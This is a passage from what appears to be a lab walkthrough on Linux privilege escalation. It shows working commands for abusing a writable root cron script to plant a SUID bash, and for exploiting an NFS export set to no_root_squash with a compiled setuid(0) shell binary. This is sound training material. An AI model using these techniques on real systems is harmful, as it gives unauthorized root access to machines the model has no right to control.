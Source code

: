**Exploitation**

Linux VM

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`

~~~
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
~~~

2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: `/tmp/bash -p`
4. In command prompt type: `id`

~~~
TCM@debian:~$ /tmp/bash -p
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~


# [Task 19] Privilege Escalation - NFS Root Squashing

**Detection**

Linux VM

1. In command line type: `cat /etc/exports`
2. From the output, notice that `no_root_squash` option is defined for the `/tmp` export.

~~~
TCM@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
~~~

**Exploitation**

Attacker VM

1. Open command prompt and type: `showmount -e 10.10.199.48`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=2 10.10.199.48:/tmp /tmp/1`.
4. In command prompt type: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c`
5. In command prompt type: `gcc /tmp/1/x.c -o /tmp/1/x`
6. In command prompt type: `chmod +s /tmp/1/x`
